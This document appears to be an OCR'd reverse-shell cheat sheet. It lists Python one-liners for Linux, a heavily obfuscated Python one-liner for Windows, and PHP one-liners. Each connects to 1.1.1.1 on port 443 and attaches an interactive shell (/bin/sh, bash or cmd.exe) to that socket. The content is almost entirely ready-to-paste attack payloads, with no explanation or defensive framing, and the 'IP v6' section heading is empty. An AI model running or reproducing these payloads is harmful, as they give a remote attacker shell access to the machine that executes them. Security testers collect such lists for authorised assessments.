 ### IP v4

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

`export RHOST="1.1.1.1";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

  # IP v6

# Windows only:

`C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"`

# PHP:

`php -r '$sock=fsockopen("1.1.1.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$s=fsockopen("1.1.1.1",443);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'`

`php -r '$s=fsockopen("1.1.1.1",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$s=fsockopen("1.1.1.1",443);/bin/sh -i <&3 >&3 2>&3;'`
